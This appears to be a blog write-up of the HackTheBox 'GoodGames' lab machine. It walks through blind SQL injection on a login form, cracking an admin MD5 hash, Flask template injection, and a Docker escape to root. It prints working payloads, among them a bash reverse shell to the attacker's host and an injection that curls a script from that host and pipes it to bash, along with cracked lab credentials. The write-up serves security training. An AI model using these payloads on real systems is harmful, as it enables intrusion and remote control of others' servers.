GoodGames - HackTheBox
Estimated read time: 14 minutes
Introduction
Let’s solve another HackTheBox CTF. In this box, we are going to see SQL injection, Server-Side Template Injection (SSTI) and Docker breakout.
Challenge description
The challenge description is:
About GoodGames
GoodGames is an Easy linux machine that showcases the importance of sanitising user inputs in web applications to prevent SQL injection attacks, using strong hashing algorithms in database structures to prevent the extraction and cracking of passwords from a compromised database, along with the dangers of password re-use. It also highlights the dangers of using
render_template_stringin a Python web application where user input is reflected, allowing Server Side Template Injection (SSTI) attacks. Privilege escalation involves docker hosts enumeration and shows how having admin privileges in a container and a low privilege user on the host machine can be dangerous, allowing attackers to escalate privileges to compromise the system.
Very descriptive, huh? The description already tells us what path should we take in order to solve the challenge.
Approach mindset
For our approach mindset, we shall separate it as the following steps:
- Reconnaissance
- Getting foothold
- Crafting the attack
- Getting root
Each concept, including SQL injection, SSTI, and Docker escape, will be explained as needed throughout the four steps.
Step 1 - Reconnaissance
Alright. As a basic procedure to solve any box or CTF-like machine, we will start enumerating the system’s ports. To do so, we will be using Nmap:
$ nmap -p- -T4 --min-rate 1000 -A -oN ports.nmap 10.129.96.71
# Nmap 7.94 scan initiated Sun Jan 7 23:08:10 2024 as: nmap -p- -T4 --min-rate 1000 -A -oN ports.nmap 10.129.96.71
Nmap scan report for 10.129.96.71
Host is up (0.30s latency).
Not shown: 65534 closed tcp ports (reset)
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.48
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=1/7%OT=80%CT=1%CU=40632%PV=Y%DS=2%DC=T%G=Y%TM=659B2F51
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11
OS:NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)
Network Distance: 2 hops
Service Info: Host: goodgames.htb
TRACEROUTE (using port 554/tcp)
HOP RTT ADDRESS
1 274.29 ms 10.10.16.1
2 130.91 ms 10.129.96.71
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 7 23:10:09 2024 -- 1 IP address (1 host up) scanned in 119.67 seconds
Showing the only open port is a web service at port 80. Let’s access it with our preferreble browser.
Looking at it, we notice a few things: first, we have a way to register a new account by clicking on the top-right corner link. It is always a good starting point when performing a pentest to register an account and check what functionalities are within the powers of a normal user. When we click the little man’s icon, we have a button to register a new account. Let’s hit that. After registering a new account, we can access it using the same icon, but now providing our credentials. This is the page we arrive at after logging in:
SQL Injection

Since the challenge explicitly tells us about a SQL injection vulnerability, let’s logout and log back in, but now we will analyze the request using BurpSuite:

After some tests, I found that the server was responding with ‘Internal Server Error’ message (even though with a 200 status code) if I was giving a correct email with wrong credentials:

And also some SQL injection payloads such as '+and+1=1--; was not working. These were giving me ‘Incorrect credentials supplied’ for
some reason, even with the correct password.

So this got me thinking that neither -- nor ; was being interpreted as comment lines.
Maybe they are being escaped. Another possibility is to use #. That’s what I’ve tried, and it actually worked:

Amazing! Now that we now that this is our injection point, we can try to enumerate the database in order to find an admin account of
some sort. Since this injection does not retrieve anything back to us, we will have to base our search blindly. This
repo is great for testing time-based SQLi. The specific payload mula%40mula.com'XOR(if(now()=sysdate(),sleep(5*5),0))OR'#--; confirmed
a time delay of 25 seconds for the server to respond, thus the vulnerability.
Since retrieving everything manually would take an unecessary amount of work, we’ll use SQLmap to our advantage. This was what I’ve ran:
$ sqlmap -u http://10.129.96.71/login --data "email=mula@mula.com&password=1234" --tables
[...snip...]
id,email,name,password
1,admin@goodgames.htb,admin,2b22337f218b2d82dfc3b6f77e7cb8ec
2,mula@mula.com,mula,81dc9bdb52d04dc20036dbd8313ed055 (1234)
And now we have the admin account + its password hash. With a quick search, we can find this hash to be a MD5 hash:

We can CrackStation to crack this hash:

We got the pair of credentials admin@goodgames.htb:superadministrator. Let’s log in with this account now:

Note that on the top-right corner we now have a gear icon which leads to http://internal-administration.goodgames.htb/. To access this
page, we will need to add this domain to our /etc/hosts directory. Just run
$ sudo echo "<machine-ip> internal-administration.goodgames.htb" >> /etc/hosts
and you should be able to access it right afterwards.
SSTI
Once we are inside the adminstration panel, we can see many different functionalities. While most of them are illustrative, I’ve found this one to be the only one that we can actually play around with:

We can change our name to something else here, and since this is the only endpoint where we can actually test, this must be the one related to Server Side Template Injection vulnerability (SSTI). But what is SSTI?
SSTI is a vulnerability that occurs when an application allows user-supplied input to be executed as a part of the template rendering process. This can lead to the execution of arbitrary code, potentially leading to server compromise or data leakage. In the worst case scenario, we could even get a reverse shell, depending on how the server sanitizes the input.
Since we are dealing with a Flask application, we can limit our search scope to Python SSTI. Upon a quick search, I found this aticle about Flask SSTI examples. In it, we can see that a testable parameter is {{2*3}} for example. This would render into the number 6. Since changing your full name in the application results into a template renderization, this is a perfect payload to test it out.

As we can see, the vulnerability is present.
Step 2 - Getting foothold
According to the article, we can see that one way to create a reverse shell is to make the server download a bash script from our local machine and execute it. To do so, we will need to create a file with the following command:
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<our-ip>/<port> 0>&1"
Save it under the name of rev-shell and then, start our netcat on the same port we typed in the script. Then,
we need to make sure the server also downloads the rev-shell file. To do this, we will also open a Python server
on port 80. After all of that is setup, we send this payload to the server:
{{request.application.__globals__.__builtins__.__import__('os').popen('curl <our-ip>/rev-shell | bash').read()}}
And we get our shell!

First, we are root, but the absence of the root flag in the /root directory shows us that we might be inside a Docker container, and that we are root within the container. In real life, we would not have a flag waiting for us in /root, so we would need to resort to other techniques to check if we are inside a Docker container. The first thing we can do is run ifconfig and check the IP address of the machine:
root@3a453ab39d3d:/backend# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 172.19.0.2 netmask 255.255.0.0 broadcast 172.19.255.255
ether 02:42:ac:13:00:02 txqueuelen 0 (Ethernet)
RX packets 1538 bytes 235795 (230.2 KiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 1341 bytes 2871375 (2.7 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
loop txqueuelen 1000 (Local Loopback)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
We can see that our IP does not match the one of the actual box. Another way to check if we are indeed inside a Docker container
is to see if a .dockerenv file exists in /:
root@3a453ab39d3d:/backend# ls / -la
ls / -la
total 88
drwxr-xr-x 1 root root 4096 Nov 5 2021 .
drwxr-xr-x 1 root root 4096 Nov 5 2021 ..
-rwxr-xr-x 1 root root 0 Nov 5 2021 .dockerenv
drwxr-xr-x 1 root root 4096 Nov 5 2021 backend
drwxr-xr-x 1 root root 4096 Nov 5 2021 bin
drwxr-xr-x 2 root root 4096 Oct 20 2018 boot
drwxr-xr-x 5 root root 340 Jan 12 23:03 dev
drwxr-xr-x 1 root root 4096 Nov 5 2021 etc
drwxr-xr-x 1 root root 4096 Nov 5 2021 home
[...snip...]
A final test we can perform to determine if we are operating within a Docker environment is to examine how the filesystem is mounted:
root@3a453ab39d3d:/backend# df -h
df -h
Filesystem Size Used Avail Use% Mounted on
overlay 8.9G 5.3G 3.2G 63% /
tmpfs 64M 0 64M 0% /dev
tmpfs 2.0G 0 2.0G 0% /sys/fs/cgroup
/dev/sda1 8.9G 5.3G 3.2G 63% /home/augustus
shm 64M 0 64M 0% /dev/shm
tmpfs 2.0G 0 2.0G 0% /proc/acpi
tmpfs 2.0G 0 2.0G 0% /sys/firmware
This output reveals an overlay filesystem mounted at /, which is typical for Docker containers. It also shows /dev/sda1 mounted at /home/augustus, indicating a bind mount or a volume. This specific mount point suggests
a directory from the host system (/home/augustus) is being mapped into the container, a common practice in Docker for data persistence or sharing between the host and the container.
One thing that it is important to note is that in a Docker environment, each container is typically assigned an IP address from a subnet managed by Docker. The default behavior is for Docker to create a bridge network and assign IP addresses to each container connected to this network. The first IP in the subnet, often ending in .1, is usually assigned to the gateway of the Docker bridge network, which facilitates communication between the containers and the host machine.
Since our container’s IP ends with .2, then it is highly likely that the .1 address is the one that links the container to the host machine. We can check if SSH port on this gateway is open by using this command:
timeout 3 bash -c 'cat < /dev/null > /dev/tcp/172.19.0.1/22'
If no error messages are shown, then it is probable that the port is open and we can try to SSH into the machine. From our enumeration, we found that augustus is a user. Based on the problem description, we see that it mentions password reuse. If
that is the case, then the SSH credentials might be augustus:superadministrator:
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
augustus@172.19.0.1 password: superadministrator
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan 13 16:19:33 2024 from 172.19.0.2
augustus@GoodGames:~$
And we are out of the container! However, we are not root now. How could we get root having access to a privileged container and to a less privileged user in the host machine?
Step 3 - Crafting the attack
The initial step to consider is verifying whether file transfers from the privileged container to the ‘augustus’ user are feasible. Given that /dev/sda1 is mounted at /home/augustus, a practical approach would be to copy a file into this directory from within the host. Subsequently, we can check if the file appears on the container to confirm the transfer’s success.
Inside the host with ‘augustus’ user, we run:
augustus@GoodGames:~$ touch test-file
touch test-file
augustus@GoodGames:~$ ls -la
ls -la
total 24
drwxr-xr-x 2 augustus augustus 4096 Jan 13 16:45 .
drwxr-xr-x 3 root root 4096 Oct 19 2021 ..
lrwxrwxrwx 1 root root 9 Nov 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus 220 Oct 19 2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3526 Oct 19 2021 .bashrc
-rw-r--r-- 1 augustus augustus 807 Oct 19 2021 .profile
-rw-r--r-- 1 augustus augustus 0 Jan 13 16:45 test-file
-rw-r----- 1 root augustus 33 Jan 12 23:04 user.txt
Then, we go back to the container and see if the file is present:
root@3a453ab39d3d:/home/augustus# ls -la test-file
ls -la test-file
-rw-r--r-- 1 1000 1000 0 Jan 13 16:45 test-file
Success! As we can access files created by ‘augustus’, we have the potential to gain root access. This can be achieved by copying the /bin/bash binary to /home/augustus inside the host machine, setting its SUID bit and onwership to root in the container, and then executing it in the ‘augustus’ user. This method is likely to grant us root access on the host machine.
Solving!
Let’s try it out! First, we run:
augustus@GoodGames:~$ cp /bin/bash ./badbash
cp /bin/bash ./badbash
Then:
root@3a453ab39d3d:/home/augustus# chown root:root badbash
chown root:root badbash
root@3a453ab39d3d:/home/augustus# chmod 4777 badbash
chmod 4777 badbash
root@3a453ab39d3d:/home/augustus# ls -la badbash
ls -la badbash
-rwsrwxrwx 1 root root 1168776 Jan 13 16:48 badbash
Now, back on the host machine:
augustus@GoodGames:~$ ls -la badbash
ls -la badbash
-rwsrwxrwx 1 root root 1168776 Jan 13 16:48 badbash
augustus@GoodGames:~$ ./badbash -p
./badbash -p
badbash-5.0# whoami
whoami
root
And we get root on the host machine! We can now retrieve the flags:
badbash-5.0# echo "User flag:";cat /home/augustus/user.txt;echo "Root flag:";cat /root/root.txt
<ustus/user.txt;echo "Root flag:";cat /root/root.txt
User flag:
c48d858e747788869b014967d28dd872
Root flag:
bdb613146b47f0a8c563b9fda49567ea
Conclusion
This CTF had nice concepts to practice: ranging from SQL injection, to Server Side Template Injection and then Docker escape with a privileged container and less privileged host access.
With the SQL injection, we got the administrator user on the website. We managed to successfully exploit the Server Side Template Injection (SSTI) vulnerability and gain access to the system’s container. Due to implementation faults, we were able to escalate our privileges by escaping the Docker environment and using both the container and a less privileged user on the host to gain root access. This allowed us to have full control over the system.
I hope you liked this write-up and learned something new. As always, don’t forget to do your research!